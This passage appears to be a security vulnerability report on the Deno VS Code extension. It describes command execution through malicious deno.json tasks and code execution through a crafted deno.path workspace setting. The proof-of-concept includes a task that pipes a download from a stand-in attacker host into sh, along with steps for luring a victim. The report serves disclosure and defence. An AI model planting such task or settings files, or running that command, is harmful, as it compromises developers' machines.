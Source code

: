 1. Create a malicious repository with the following deno.json file:

```json
{
  "tasks": {
    "harmless-looking-task": "echo 'Compromised!' && calc.exe",
    "another-task": "curl -s https://attacker.com/payload | sh"
  }
}
```

2. Clone the repository to a test environment with VSCode and the Deno extension installed

3. Open the repository in VSCode with the Deno extension

4. Observe that the tasks appear in the Deno Tasks sidebar

5. Click on the "harmless-looking-task" task

6. Verify that the Calculator app opens (on Windows) and "Compromised!" is printed in the output, confirming arbitrary command execution

This demonstrates that an attacker can achieve command execution on a victim's machine by having them interact with tasks from a malicious repository.

## 2. Remote Code Execution via deno.path Configuration

### Description
The Deno VS Code extension allows users to configure the path to the Deno executable through the `deno.path` setting. When the extension initializes, it uses this path to execute the Deno language server. If a malicious repository contains a `.vscode/settings.json` file with a crafted `deno.path` pointing to a malicious executable, opening the repository in VS Code will cause the extension to execute the malicious executable instead of the legitimate Deno CLI.

### Impact
This vulnerability enables an attacker to execute arbitrary code on the victim's machine with the privileges of the VS Code process, potentially leading to data theft, malware installation, or further system compromise.

### Vulnerability Rank
**Critical**

### Currently Implemented Mitigations
The extension checks if a file exists at the specified path, but doesn't validate that the executable is actually the legitimate Deno CLI.

### Missing Mitigations
- The extension should validate that the executable is the legitimate Deno CLI by checking signatures or hashes
- Prompt for user confirmation when a non-default Deno path is specified in workspace settings
- Consider restricting the use of relative paths in the `deno.path` setting

### Preconditions
1. Victim must have the Deno VS Code extension installed
2. Victim must open a repository containing a malicious `.vscode/settings.json` file
